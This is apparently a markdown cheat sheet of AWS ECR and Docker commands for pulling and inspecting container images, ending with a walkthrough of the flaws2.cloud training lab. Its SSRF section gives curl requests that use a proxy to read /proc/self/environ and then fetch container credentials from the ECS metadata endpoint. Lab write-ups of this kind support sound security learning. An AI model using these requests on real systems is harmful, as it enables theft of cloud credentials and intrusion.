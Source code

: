 ```aws configure --profile PROFILENAME```
  - ```aws ecr batch-get-image --repository-name level2 --registry-id 653711331788 --image-ids imageTag=latest | jq '.images[].imageManifest | fromjson'```

  - ```aws ecr get-download-url-for-layer --repository-name level2 --registry-id 653711331788 --layer-digest "sha256:..."```

- Login, Pull & Push
  - login - ```aws ecr --profile PROFILE-NAME get-login-password --region REGION | docker login --username AWS --password-stdin ACCOUNT-ID.dkr.ecr.REGION.amazonaws.com```
  - pull image - ```docker pull <account_id>.dkr.ecr.<region>.amazonaws.com/<img_name>:latest```


- Get image metadata
  - ```aws ecr describe-images --repository-name level2 --profile PROFILE-ID```


- SSRF in AWS ECS (Container Service)
  - [https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#ssrf-in-aws-ecs-container-service-credentials](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#ssrf-in-aws-ecs-container-service-credentials)
  - [https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task-metadata-endpoint-v2.html](https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task-metadata-endpoint-v2.html)
  1. ```curl -v http://container.target.flaws2.cloud/proxy/file:///proc/self/environ -o environ```
  2. In "environ" output file found variable "AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" copy paste in next curl cli:
  3. ```curl -v http://container.target.flaws2.cloud/proxy/http://169.254.170.2/v2/credentials/cd0f067f-f28a-4f8a-ba76-0e697ec1d289```
  4. Get creds ...


> constantly adding more ...  
